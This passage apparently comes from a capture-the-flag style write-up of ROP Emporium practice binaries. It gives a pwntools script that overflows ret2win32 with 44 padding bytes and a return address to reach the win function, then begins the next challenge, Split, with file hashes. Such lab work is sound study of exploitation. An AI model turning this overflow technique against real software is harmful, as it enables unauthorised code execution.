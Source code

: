 ![offset](/assets/images/rop_emp/ret2win32/offset.png)

Thus, the following script was used to solve the challenge.

```python
#!/usr/bin/env python3

from pwn import *

def main():
    elf = ELF('ret2win32')
    p = process('./ret2win32')
    
    print(p.recvlines(timeout=1))
    payload = b'A' * 44 + p32(0x804862C)
    
    p.sendline(payload)
    p.interactive()
    
if __name__=='__main__':
    main()
```

![flag](/assets/images/rop_emp/ret2win32/flag.png)

## Challenge 2: Split (x86)

For the second challenge we are given the following files. The following image shows the results of checksec.

| Filename              | MD5 hash                            |
| --------------------- | ----------------------------------- |
| split32                 | b559126d809ee9345baa3467399898a4    |
| flag.txt                | ce0d8b514b2237cb72ebfade8ba9b1fe    |

![checksec](/assets/images/rop_emp/split32/checksec.png)
